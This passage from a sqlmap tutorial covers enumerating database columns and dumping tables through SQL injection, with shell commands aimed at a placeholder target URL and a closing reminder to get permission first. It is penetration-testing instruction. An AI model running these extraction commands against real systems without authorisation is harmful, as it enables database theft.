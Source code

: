 ### Enumerating Columns

Sqlmap can also enumerate columns if the session user has read access to the relevant system tables:

```sh
python sqlmap.py -u "http://target" --columns
```

Additional options:

- Restrict results to a specified database and table:
  ```sh
  python sqlmap.py -u "http://target" -D database_name -T table_name --columns
  ```

### Dumping Tables

Attackers can dump entire tables or databases using the following options:

```sh
python sqlmap.py -u "http://target" --dump
```

Additional options:

- Restrict extracted data:
  ```sh
  python sqlmap.py -u "http://target" -D database_name -T table_name --dump
  ```
- Exclude system tables:
  ```sh
  python sqlmap.py -u "http://target" --exclude-sysdbs --dump
  ```

## Conclusion

Sqlmap is a powerful and versatile tool for SQL injection testing. This tutorial has covered the essential functionalities to get you started with sqlmap, from installation to extracting database information. Always use sqlmap responsibly and ensure you have permission before conducting any tests.
